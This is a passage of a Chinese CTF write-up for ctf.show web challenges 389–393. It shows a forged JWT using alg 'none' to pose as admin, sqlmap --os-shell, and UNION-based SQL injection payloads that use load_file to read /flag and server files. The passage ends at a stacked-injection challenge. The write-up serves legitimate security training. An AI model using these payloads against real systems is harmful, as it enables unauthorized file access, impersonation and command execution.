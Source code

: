 ```python
print(token.encode("utf-8").decode("utf-8"))

#eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpc3MiOiJhZG1pbiIsImlhdCI6MTYzNDc5OTkxNywiZXhwIjoxNjM0ODA3MTE3LCJuYmYiOjE2MzQ3OTk5MTcsInN1YiI6ImFkbWluIiwianRpIjoiMThhNDYzZDJjYTEyNmU3MGZhZmNmMjdhODc0ZjU3ZjAifQ.

```

![](https://i.loli.net/2021/10/21/Y8rdHGDCFXsQUvn.png)

后续同388

不过尝试的时候发现传txt再包含的话不太行--，又改成zip格式才成

## 390 sql注入 --os-shell

看网站url，改为用参数id控制了：`http://9b0ead93-149f-465a-9c86-2dacc9b75333.challenge.ctf.show/page.php?id=3`

sqlmap --os-shell

![](https://i.loli.net/2021/10/21/dH3QSFGqf5amKoJ.png)



## 391、392 sql注入 

注入点在`url/search.php?title=1`

继续sqlmap或者手注

391 flag在alsckdfy/check.php；392flag在根目录

```
/search.php?title=1' union select 1,substr((select load_file('/var/www/html/alsckdfy/check.php')),1,255),3 limit 0,1%23
```

![](https://i.loli.net/2021/10/21/EbWaysgBi6S1tAw.png)

```
/search.php?title=1' union select 1,substr((select load_file('/flag')),1,255),3 limit 0,1%23
```

![](https://i.loli.net/2021/10/21/LhHsXmKIlT5BU4v.png)

## 393 堆叠

在最下面出现一个搜索引擎
![](https://i.loli.net/2021/10/21/u1DRkeN8ixaHQlT.png)
选择一个会出现：![](https://i.loli.net/2021/10/21/YneZ7Lwhz2SAGbk.png)

应当是把搜索引擎的链接放到了数据库里，不同链接对应不同的id

sqlmap一把梭，看一下数据库
